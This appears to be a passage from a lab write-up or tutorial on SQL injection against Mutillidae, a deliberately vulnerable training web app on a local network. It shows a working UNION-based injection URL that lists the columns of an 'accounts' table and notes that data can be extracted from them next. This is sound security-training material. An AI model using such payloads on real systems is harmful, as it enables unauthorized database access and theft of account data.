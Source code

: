 ![alt text](Images/25.png)
### The column names of the accounts is displayed below for the following url:

### http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,column_name,null,null,5%20from%20information_schema.columns%20where%20table_name=%27accounts%27%23&password=&user-info-php-submit-button=View+Account+Details
![alt text](Images/26.png)
### Once we discovered all available column names, we can extract information from them by just adding those column names in our query sentence.
